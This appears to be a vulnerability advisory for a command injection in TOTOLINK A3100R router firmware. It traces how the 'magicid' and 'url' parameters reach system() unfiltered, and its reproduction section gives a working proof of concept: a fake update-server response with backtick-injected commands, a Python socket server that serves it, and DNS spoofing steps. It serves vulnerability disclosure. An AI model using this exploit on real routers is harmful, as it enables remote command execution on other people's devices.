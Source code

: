 # Command Injection

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129


## Description:
We have found an issue with function uci_cloudupdate_config in  module cloudupdate_check , parameter "magicid"  and "url" can couse command injection.Hacker can use this  by Man-in-the-middle attack.

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

## Analyse：
In function uci_cloudupdate_config as we can  see，there is  no filter with magicid and url，after snprintf it was passed to system. If we pass magicid with `ls`,the command 'ls' will be executed and the result will be written to /tmp/ActionMd5.
![](./img/3.png) 

function trace back：
uci_cloudupdate_config<-parse_upgserver_info<-connect_cloud<-cloudupdate_check

before cloudupdate_check thre is  a init_host_config function call:
![](./img/4.png) 

we can find the server name in this function
![](./img/5.png) 






## reproduct:
1、make a fake sever with  follow response
```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}
```
you can use payload like follows
```
import socket

sSock=socket.socket()
sSock.bind(('192.168.0.109',80))
sSock.listen(1000)

cSock,addr=sSock.accept()

if(True):
    str1=cSock.recv(1024)
    print("client:"+str1.decode('utf-8'))

    #str2=input('>>>')

    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())

cSock.close()
```

2、make dnsreslove update.carystudio.com to your fake server

3、reboot the router

4、check /tmp/ActionMd5 and /tmp/DlFileUrl
then we have successfully run command ‘ls’ and ‘ls -la’
![](./img/1.png)

